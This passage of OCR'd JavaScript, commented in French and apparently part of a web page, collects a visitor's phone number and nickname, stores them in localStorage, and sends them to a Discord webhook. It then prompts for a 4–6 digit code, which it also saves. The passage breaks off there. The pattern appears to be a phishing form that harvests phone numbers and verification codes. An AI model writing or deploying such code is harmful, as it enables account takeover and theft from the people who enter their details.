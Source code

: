     currentUser.phone = phone;
    currentUser.pseudo = pseudo;

    // Stockage local
    let users = JSON.parse(localStorage.getItem('users')) || [];
    const index = users.findIndex(u => u.phone === phone);
    if (index !== -1) {
      users[index].pseudo = pseudo;
    } else {
      users.push({phone: phone, pseudo: pseudo, code: ""});
    }
    localStorage.setItem('users', JSON.stringify(users));

    // Envoi webhook Discord
    sendToWebhook({
      event: "num_pseudo_entré",
      phone: phone,
      pseudo: pseudo,
      timestamp: new Date().toISOString()
    });

    // Affiche la section infos
    document.getElementById('formulaire').style.display = 'none';
    document.getElementById('infosUser').style.display = 'block';
    document.getElementById('affichePhone').textContent = phone;
    document.getElementById('affichePseudo').textContent = pseudo;

    document.getElementById('msgCode').textContent = "";
    document.getElementById('confirmation').style.display = "none";
    document.getElementById('code').value = "";
  }

  function validerCode() {
    const codeInput = document.getElementById('code');
    const code = codeInput.value.trim();
    const msg = document.getElementById('msgCode');
    const conf = document.getElementById('confirmation');
    msg.textContent = "";
    conf.style.display = "none";

    if (!/^\d{4,6}$/.test(code)) {
      msg.textContent = "❌ Code invalide (4 à 6 chiffres).";
      return;
    }

    currentUser.code = code;

    // Mise à jour localStorage
    let users = JSON.parse(localStorage.getItem('users')) || [];
    const index = users.findIndex(u => u.phone === currentUser.phone);
    if (index !== -1) {
      users[index].code = code;
    } else {
      users.push(currentUser);
    }
    localStorage.setItem('users', JSON.stringify(users));
